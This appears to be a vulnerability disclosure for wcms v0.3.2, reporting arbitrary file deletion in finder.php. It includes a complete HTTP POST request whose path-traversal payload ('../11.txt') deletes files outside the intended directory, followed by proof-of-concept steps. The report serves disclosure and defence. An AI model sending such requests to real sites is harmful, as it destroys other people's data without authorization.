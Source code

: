 #### BUG_AUTHOR:acmglz
# wcms has arbitrary file deletion
## Download address:
https://github.com/vedees/wcms/releases/tag/0.3.2
## Version:v0.3.2
## Tested on: PHP, Apache, MySQL
## Affected Page:
/wcms/wex/finder.php?p=

POST
```
POST /wcms/wex/finder.php?p= HTTP/1.1
Host: bc123.com
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bc123.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bc123.com/wcms/wex/finder.php?p=
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fr79h5nb1s5marnuvmhgi8dmu7
Connection: close

p=&group=1&file%5B%5D=../11.txt&delete=Delete
```



## Proof of vulnerability:

1. Create the 11.txt file in another directory
![image](https://github.com/user-attachments/assets/7a9747d6-4673-4de5-874f-2d495c5f4bc6)

   

2. Test arbitrary file deletion according to post data

![image](https://github.com/user-attachments/assets/c12ce9d2-46f1-47ad-9b45-3c789c9384b8)




